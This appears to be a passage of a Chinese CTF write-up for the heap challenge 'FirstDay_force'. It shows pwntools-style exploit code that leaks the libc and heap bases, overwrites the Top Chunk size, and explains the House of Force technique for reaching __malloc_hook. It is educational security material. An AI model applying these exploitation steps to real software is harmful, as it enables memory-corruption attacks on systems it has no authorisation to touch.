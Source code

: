 
## 0x03 FirstDay_force

### <a class="reference-link" name="%E9%A2%98%E7%9B%AE%E4%BF%A1%E6%81%AF"></a>题目信息

[![](./img/199540/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://img.lhyerror404.cn/error404/2020-02-23-070324.png)

全保护程序

### <a class="reference-link" name="%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90"></a>漏洞分析

可以发现，程序中只有一个add的功能，没有其他函数可以用，并且发现了一处明显的越界写可以用来劫持`Top Chunk`。

[![](./img/199540/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://img.lhyerror404.cn/error404/2020-02-23-071215.png)

于是使用`House of force`的攻击思路。

#### <a class="reference-link" name="Leak%20Libc"></a>Leak Libc

可以发现程序会告诉我们我们申请下来的chunk的位置，那么当我们申请一个极大Chunk时，程序会调用`mmap`进行内存分配，分配下来的地址是libc跟随的地址。

```
sh.recvuntil('2:puts')
sh.sendline('1')
sh.recvuntil('size')
sh.sendline(str(0x100000))
libc_base = get_address(sh,'We get libc base address is ','bin addr 0x','n',-0x4D2010,True)
malloc_hook_addr = libc_base + libc.symbols['__malloc_hook']
sh.sendline('Chunk0')
```

#### <a class="reference-link" name="%E5%8A%AB%E6%8C%81Top%20Chunk"></a>劫持Top Chunk

构造如下payload可以修改Top Chunk的size域为`0xFFFFFFFFFFFFFFFF`，顺便泄露heap地址

```
sh.recvuntil('2:puts')
sh.sendline('1')
sh.recvuntil('size')
sh.sendline(str(0x20))
heap_base = get_address(sh,'We get heap base address is ','bin addr 0x','n',-0x10,True)
sh.sendline(p64(0) * 5 + p64(0xFFFFFFFFFFFFFFFF))
```

#### 劫持`__malloc_hook`

接下来我们要将Top_Chunk”推”到我们想要劫持的`__malloc_hook`处。

> 首先是libc会检查用户申请的大小，top chunk是否能给的起，如果给得起，就由top chunk的head处，以用户申请大小所匹配的chunk大小为偏移量，将top chunk的位置推到新的位置，而原来的top chunk head处就作为新的堆块被分配给用户了：试想，如果我们能控制top chunk在这个过程中推到任意位置，也就是说，如果我们能控制用户申请的大小为任意值，我们就能将top chunk劫持到任意内存地址，然后就可以控制目标内存。
